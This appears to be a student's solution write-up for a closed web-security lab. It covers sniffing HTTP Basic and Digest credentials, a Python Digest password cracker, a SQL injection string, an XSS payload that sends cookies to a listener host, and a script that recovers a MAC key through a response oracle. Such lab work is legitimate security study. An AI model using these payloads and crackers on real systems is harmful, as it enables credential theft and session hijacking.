 # 1

## Packet
```
IP 192.168.14.3.46826 > 192.168.14.1.80: Flags [P.], seq 1:143, ack 1, win 502, options [nop,nop,TS val 1452909150 ecr 2428281190], length 142: HTTP: GET /secret/file HTTP/1.1
E.....@.@..............P.Tw.|..j...........
V..^...fGET /secret/file HTTP/1.1
Host: 192.168.14.1
Authorization: Basic dHJhdmlzMTQ6bWFpdkRlY2d1cjIyMDI=
User-Agent: curl/7.58.0
Accept: */*
```

## User/Pass:
`travis14:maivDecgur2202`

## Contents:
```html
I'm going to let you in on a little secret. Every day, once a day, give yourself a present. Don’t plan it; don’t wait for it; just let it happen.
- Dale Cooper
```
# 2
## Packet
```
182203 IP 192.168.14.2.36586 > 192.168.14.1.80: Flags [P.], seq 91:464, ack 308, win 501, options [nop,nop,TS val 422351445 ecr 1957960104], length 373: HTTP: HEAD /secret/cheese HTTP/1.1
E.....@.@..v...........P,..................
.,.Ut...HEAD /secret/cheese HTTP/1.1
Host: 192.168.14.1
Authorization: Digest username="travis14", realm="Cheese", nonce="/DPYEFbSBQA=c06893026441a70acf049b49540e97acd2bdd640", uri="/secret/cheese", cnonce="ZjdlNTk0ZGZmMDQwZTU3OTM2MTIxOGEyNzljNDJlYzc=", nc=00000001, qop=auth, response="872aafc461761e417d2df47b85e43d2b", algorithm="MD5"
User-Agent: curl/7.58.0
Accept: */*
```

## Crack
```python
# HTTP Digest Authentication cracker
import hashlib

username = "travis14"
realm = "Cheese"
nonce = "/DPYEFbSBQA=c06893026441a70acf049b49540e97acd2bdd640"
uri = "/secret/cheese"
qop = "auth"
nc = "00000001"
cnonce = "ZjdlNTk0ZGZmMDQwZTU3OTM2MTIxOGEyNzljNDJlYzc="
response = "872aafc461761e417d2df47b85e43d2b"

# Calculate the response
with open("10k-most-common.txt") as f:
    for line in f:
        line = line.strip('\n').strip()
        ha1 = hashlib.md5((username + ":" + realm + ":" + line).encode('utf-8')).hexdigest()
        ha2 = hashlib.md5(("HEAD" + ":" + uri).encode('utf-8')).hexdigest()
        response = hashlib.md5((ha1 + ":" + nonce + ":" + nc + ":" + cnonce + ":" + qop + ":" + ha2).encode('utf-8')).hexdigest()
        # print(line + ":" + response)
        if (response == "872aafc461761e417d2df47b85e43d2b"):
            print("Password: " + line)
            break

```
## Password
`Password: domain`

##Contents:
```
Intelligence alone is not nearly enough when it comes to acting wisely.

— Fyodor Dostoevsky
```

# 3
## Cookie
`Stephen2019-11-03T12%3A44%3A21Z`

# 4
The secret to figuring out the SQL injection was ~~trying everything~~ tuning the query to stop returning Error 500.

## Request
`picture=char-kway-teow.jpg'+OR+1=1+AND'user=alice--`

## Response
`The best char kway teow is Penang char kway teow (lat: 5.411135 / lng: 100.330462)`

# 5

## XSS
```html
<script>document.location="http://192.168.14.3:8080/?cookie="+document.cookie;</script>
```

## Cookie
`GET /?cookie=auth=Iwillseeyouagainin32years. HTTP/1.1" 200 -`

## Writeup
The main additional thing I did was start up a `SimpleHTTPServer` on port 8080 of the server I have SSH access to. The attack works because the server is making an HTTP request to that port with the cookie being that of the browser.

# 6
## Code
```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import string

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

actual = ""
key = "Z"*19
for n in range(19, -1, -1):
    res2 = requests.get("https://192.168.14.1/mac-cookie?username="+key,
                        verify=False).text.replace(".", "").split(" ")[-1].split('\n')[0]
    for c in string.printable:
        test = key[:n] + c
        res1 = requests.get("https://192.168.14.1/mac-cookie?username="+test,
                            verify=False).text.replace(".", "").split(" ")[-1].split('\n')[0]
        print(test, res1, res2)
        if res1 == res2:
            actual = c + actual
            break
    key = key[:-1]

print("Key is", actual)
```

## Key
`###################k`
